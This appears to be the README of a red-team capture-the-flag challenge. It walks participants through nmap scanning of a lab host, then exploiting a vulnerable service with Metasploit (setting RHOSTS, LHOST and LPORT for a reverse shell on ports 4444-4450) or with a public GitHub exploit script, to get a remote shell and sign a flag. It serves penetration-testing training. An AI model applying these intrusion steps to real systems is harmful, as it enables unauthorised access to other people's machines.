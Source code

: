 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup

Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge

- Run nmap
- Run Metasploit or an exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./red_ch1.flag <SALT>`

#### Nmap
Nmap is a port scanner and a frequently utilized tool in the pocket of any pen-tester.

##### Installing Nmap
 
For RedHat/CentOS: `sudo yum install nmap`

For Debian/Ubuntu: `apt-get install nmap`

##### Scanning with Nmap

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -vv`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports. Examples: `-p22,23,80` -> scan 22,23 and 80 , `-p8000-9000` -> scan a port range, `-p-` -> scan all the ports
* `-A`: Determine service/version and OS info.

For a detailed list of all parameters available please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

Once you run nmap you will uncover a set of open ports. 
What services are running on those ports? Can you navigate to each service in a browser?

#### Metasploit

**Note**: this is the cooler option but you will need to get a bit of setup done and you need your exploit machine to be publicly accessible so the vulnerable machine can "call home".
If you're looking for the quick fix scroll down to the **Exploit Script** option below.

If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the Meterpreter to run. 

##### Docker Install

* For RedHat/CentOS: `sudo yum install nmap` or `sudo amazon-linux-extras install docker` (AWS Linux 2)
* For Debian/Ubuntu: `apt-get install nmap`

##### Running Docker

* Start Docker with: `sudo service docker start`
* Add permissions to your userto pull and run container images: `sudo usermod -a -G docker ec2-user`
* Logout and relogin.

##### Running the Metasploit Image


Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results:

`search <name of the application you are looking to exploit>`

Select the exploit you are going to use from the search results:

`use <path/to/the/exploit>`

Set the host IP and port for the target machine
IMPORTANT, if your host is behind a load balancer you should choose 1 of the load balancer IPs for the attack. You can determine the ips with `nslookup <HOST_NAME>`

`set RHOSTS <host>`

`set RPORT <port>`

If your target is running on an encrypted port then you need to enable SSL

`set SSL true`

Set the host IP and port for the machine running Metasploit. This machine should be publcly available and accessible over ports 4444-4450

`set LHOST <remote IP of Metasploit machine>`

`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. 

To drop into a OS shell use the `shell` command.

Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use a public exploit available on GitHub:

First, you need to clone the repository into your attacker's machine:

`git clone <exploit_github>`

Go to the project folder and install the library dependencies:

`cd <exploit_github>`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./exploit.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`

